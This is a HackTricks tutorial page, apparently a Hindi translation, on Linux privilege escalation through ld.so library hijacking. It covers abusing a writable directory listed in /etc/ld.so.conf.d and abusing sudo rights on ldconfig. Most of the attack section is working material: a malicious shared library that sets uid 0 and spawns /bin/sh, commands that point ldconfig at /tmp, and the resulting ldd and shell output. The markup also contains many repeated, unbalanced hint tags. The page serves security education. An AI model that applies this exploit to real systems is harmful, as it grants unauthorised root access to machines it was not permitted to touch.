 # ld.so privesc exploit example

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}

## वातावरण तैयार करें

अगले अनुभाग में आप उन फ़ाइलों का कोड पा सकते हैं जिनका हम वातावरण तैयार करने के लिए उपयोग करने जा रहे हैं

{% tabs %}
{% tab title="sharedvuln.c" %}
```c
#include <stdio.h>
#include "libcustom.h"

int main(){
printf("Welcome to my amazing application!\n");
vuln_func();
return 0;
}
```
{% endtab %}

{% tab title="libcustom.h" %}
```c
#include <stdio.h>

void vuln_func();
```
{% endtab %}

{% tab title="libcustom.c" %}
```c
#include <stdio.h>

void vuln_func()
{
puts("Hi");
}
```
{% endtab %}
{% endtabs %}

1. **अपने मशीन में उसी फ़ोल्डर में** उन फ़ाइलों को **बनाएँ**
2. **लाइब्रेरी को** संकलित करें: `gcc -shared -o libcustom.so -fPIC libcustom.c`
3. `libcustom.so` को `/usr/lib` में **कॉपी करें**: `sudo cp libcustom.so /usr/lib` (रूट प्रिविलेज)
4. **कार्यकारी फ़ाइल को** संकलित करें: `gcc sharedvuln.c -o sharedvuln -lcustom`

### वातावरण की जाँच करें

जाँच करें कि _libcustom.so_ _/usr/lib_ से **लोड** हो रहा है और कि आप बाइनरी को **निष्पादित** कर सकते हैं।
```
$ ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffc9a1f7000)
libcustom.so => /usr/lib/libcustom.so (0x00007fb27ff4d000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb27fb83000)
/lib64/ld-linux-x86-64.so.2 (0x00007fb28014f000)

$ ./sharedvuln
Welcome to my amazing application!
Hi
```
## Exploit

इस परिदृश्य में हम यह मानने जा रहे हैं कि **किसी ने _/etc/ld.so.conf/_ के अंदर एक कमजोर प्रविष्टि बनाई है**:
```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```
The vulnerable folder is _/home/ubuntu/lib_ (जहाँ हमारे पास लिखने की अनुमति है)।\
**डाउनलोड और संकलित करें** निम्नलिखित कोड उस पथ के अंदर:
```c
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
setuid(0);
setgid(0);
printf("I'm the bad library\n");
system("/bin/sh",NULL,NULL);
}
```
अब जब हमने **गलत कॉन्फ़िगर की गई** पथ के अंदर **दुष्ट libcustom पुस्तकालय** बनाया है, हमें **रीबूट** का इंतज़ार करना होगा या रूट उपयोगकर्ता को **`ldconfig`** निष्पादित करने के लिए कहना होगा (_यदि आप इस बाइनरी को **sudo** के रूप में निष्पादित कर सकते हैं या इसमें **suid बिट** है, तो आप इसे स्वयं निष्पादित कर सकेंगे_)।

एक बार जब यह हो जाता है, तो **फिर से जांचें** कि `sharevuln` निष्पादन योग्य `libcustom.so` पुस्तकालय को कहाँ से लोड कर रहा है:
```c
$ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffeee766000)
libcustom.so => /home/ubuntu/lib/libcustom.so (0x00007f3f27c1a000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3f27850000)
/lib64/ld-linux-x86-64.so.2 (0x00007f3f27e1c000)
```
जैसा कि आप देख सकते हैं, यह **`/home/ubuntu/lib` से लोड हो रहा है** और यदि कोई उपयोगकर्ता इसे निष्पादित करता है, तो एक शेल निष्पादित होगा:
```c
$ ./sharedvuln
Welcome to my amazing application!
I'm the bad library
$ whoami
ubuntu
```
{% hint style="info" %}
ध्यान दें कि इस उदाहरण में हमने विशेषाधिकारों को बढ़ाया नहीं है, लेकिन निष्पादित किए गए आदेशों को संशोधित करके और **जड़ या अन्य विशेषाधिकार प्राप्त उपयोगकर्ता के द्वारा कमजोर बाइनरी को निष्पादित करने की प्रतीक्षा करके** हम विशेषाधिकार बढ़ा सकेंगे।
{% endhint %}

### अन्य गलत कॉन्फ़िगरेशन - समान कमजोरियां

पिछले उदाहरण में हमने एक गलत कॉन्फ़िगरेशन का नाटक किया जहां एक व्यवस्थापक ने **`/etc/ld.so.conf.d/` के अंदर एक कॉन्फ़िगरेशन फ़ाइल के अंदर एक गैर-विशेषाधिकार प्राप्त फ़ोल्डर सेट किया**।\
लेकिन अन्य गलत कॉन्फ़िगरेशन भी हैं जो समान कमजोरियों का कारण बन सकते हैं, यदि आपके पास **`/etc/ld.so.conf.d` के अंदर कुछ **config file** में लिखने की अनुमति है, `/etc/ld.so.conf.d` फ़ोल्डर में या `/etc/ld.so.conf` फ़ाइल में, तो आप समान कमजोरी को कॉन्फ़िगर कर सकते हैं और इसका लाभ उठा सकते हैं।

## एक्सप्लॉइट 2

**मान लीजिए कि आपके पास `ldconfig` पर sudo विशेषाधिकार हैं**।\
आप `ldconfig` को **कॉन्फ़ फ़ाइलों को कहाँ से लोड करना है** यह बता सकते हैं, इसलिए हम इसका लाभ उठाकर `ldconfig` को मनमाने फ़ोल्डर लोड करने के लिए कह सकते हैं।\
तो, चलिए "/tmp" को लोड करने के लिए आवश्यक फ़ाइलें और फ़ोल्डर बनाते हैं:
```bash
cd /tmp
echo "include /tmp/conf/*" > fake.ld.so.conf
echo "/tmp" > conf/evil.conf
```
अब, जैसा कि **पिछले एक्सप्लॉइट** में संकेत दिया गया है, **`/tmp` के अंदर दुर्भावनापूर्ण लाइब्रेरी बनाएं**।\
और अंत में, चलिए पथ लोड करते हैं और जांचते हैं कि बाइनरी लाइब्रेरी को कहाँ से लोड कर रही है:
```bash
ldconfig -f fake.ld.so.conf

ldd sharedvuln
linux-vdso.so.1 =>  (0x00007fffa2dde000)
libcustom.so => /tmp/libcustom.so (0x00007fcb07756000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcb0738c000)
/lib64/ld-linux-x86-64.so.2 (0x00007fcb07958000)
```
**जैसा कि आप देख सकते हैं, `ldconfig` पर sudo विशेषाधिकार होने से आप उसी कमजोरियों का लाभ उठा सकते हैं।**

{% hint style="info" %}
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
